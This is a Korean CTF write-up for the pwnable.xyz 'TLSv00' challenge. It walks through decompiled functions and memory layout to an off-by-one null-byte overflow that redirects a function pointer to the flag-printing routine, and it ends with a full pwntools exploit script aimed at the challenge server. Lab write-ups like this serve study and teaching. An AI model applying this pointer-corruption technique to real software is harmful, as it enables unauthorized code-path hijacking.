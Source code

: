 ```yaml
---
title: "[pwnable.xyz]TLSv00"
date: 2020-1-25
ctf: Pwnable.xyz
layout: post
published : false
---
```


64비트 바이너리고 보호기법 다 걸려있다.

```
[*] '/vagrant/ctfs/challenge'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

1번 메뉴다. `/dev/urandom `값을 가지고 키를 생성해주는데 처음에는 기본으로 63으로 인자를 넣어서 생성해준다. 이후에 원하는 사이즈만큼 할당 받을 수 있다.

```c
unsigned __int64 __fastcall generate_key(signed int a1)
{
  signed int i; // [rsp+18h] [rbp-58h]
  int fd; // [rsp+1Ch] [rbp-54h]
  char s[72]; // [rsp+20h] [rbp-50h]
  unsigned __int64 v5; // [rsp+68h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  if ( a1 > 0 && (unsigned int)a1 <= 0x40 )
  {
    memset(s, 0, 72uLL);
    fd = open("/dev/urandom", 0);
    if ( fd == -1 )
    {
      puts("Can't open /dev/urandom");
      exit(1);
    }
    read(fd, s, a1);
    for ( i = 0; i < a1; ++i )
    {
      while ( !s[i] )
        read(fd, &s[i], 1uLL);
    }
    strcpy(key, s);
    close(fd);
  }
  else
  {
    puts("Invalid key size");
  }
  return __readfsqword(0x28u) ^ v5;
}
```

2번 메뉴다. flag파일을 읽어와서 `generate_key` 에서 생성한 키와 xor연산해준다.

```c
int load_flag()
{
  unsigned int i; // [rsp+8h] [rbp-8h]
  int fd; // [rsp+Ch] [rbp-4h]

  fd = open("/flag", 0);
  if ( fd == -1 )
  {
    puts("Can't open flag");
    exit(1);
  }
  read(fd, flag, 64uLL);
  for ( i = 0; i <= 63; ++i )
    flag[i] ^= key[i];
  return close(fd);
}
```

y를 입력하면 함수 포인터를 실행해준다. 근데 `do_comment` 를 전에 값을 넣어줬다면 그거 return해준다.

```c
__int64 print_flag()
{
  __int64 result; // rax

  puts("WARNING: NOT IMPLEMENTED.");
  result = (unsigned __int8)do_comment;
  if ( !(_BYTE)do_comment )
  {
    printf("Wanna take a survey instead? ");
    if ( getchar() == 'y' )
      do_comment = (__int64 (*)(void))f_do_comment;
    result = do_comment();
  }
  return result;
}
```

off-by-one 취약점이 터진다. 

```
.bss:0000000000202040 ; char key[64]
.bss:0000000000202040 key             db 40h dup(?)           ; DATA XREF: generate_key+E4↑o
.bss:0000000000202040                                         ; load_flag+73↑o
.bss:0000000000202080                 public do_comment
.bss:0000000000202080 ; __int64 (*do_comment)(void)
.bss:0000000000202080 do_comment      dq ?                    ; DATA XREF: print_flag+10↑o
.bss:0000000000202080                                         ; print_flag+40↑w ...
.bss:0000000000202088                 align 20h
.bss:00000000002020A0                 public flag
.bss:00000000002020A0 ; _BYTE flag[64]
.bss:00000000002020A0 flag            db 40h dup(?)           ; DATA XREF: real_print_flag+4↑o
.bss:00000000002020A0                                         ; load_flag+45↑o ...
.bss:00000000002020A0 _bss            ends
```

자세히 보면 key의 크기를 원하는 만큼 지정해서 입력할 수 있다. 근데 여기서 key를 strcpy로 복사하다보니 마지막에 널바이트가 붙어서 1 byte overflow가 난다. 그래서 64만큼 사이즈를 지정하면 do_comment 1바이트를 덮을 수 있다. 그러면 함수 포인터니까 하위 바이트가 널바이트가 된다. 

0xB1F 주소를 갖는 `f_do_comment` 함수 포인터가 하위 바이트가 널바이트가 추가되면 0xB00주소를 갖게 된다. 그러면 0xB00주소를 실행한다. 이 주소에는 `real_print_flag` 함수가 있다. 이를 실행시켜서 값을 뽑아낼 수 있다. 그리고 0과 xor하면 그대로 그 수가 나오는걸 이용해서 풀면 된다. 

> exploit.py

```python
from pwn import *

#context.log_level = 'debug'
e = ELF('./challenge')
#p = process('./challenge')
#p = remote('svc.pwnable.xyz',30006)
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)

def generate(size):
	sla('>','1')
	sla(':',str(size))

def loadflag():
	sla('>','2')

def printflag(chk): # if 'y' -> f_do_comment(); function pointer
	sla('>','3')
	sla('?',chk);
	#,comment
	#if chk == 'y':
	#	sa(':',comment)
	#else:
	#	return

flag = 'F'
for i in range(1,0x31):
	p = remote('svc.pwnable.xyz',30006)
	printflag('y') # setting function pointer
	generate(i) # strcpy(key, s); -> \x00
	loadflag()
	generate(64) # off-by-one -> null byte overflow = 0xB1F -> 0xB00
	printflag('n') # return do_comment() -> real_print_flag()
	p.recv()
	flag += p.recv(0x31)[i]
	#flag+=p.recvline()[i+1]
	log.info(str(i)+' : '+flag)
	p.close()

# real_print_flag -> 0xB00
# f_do_comment -> 0xB1F
# key ~ do_commnet -> 64

p.interactive()
```

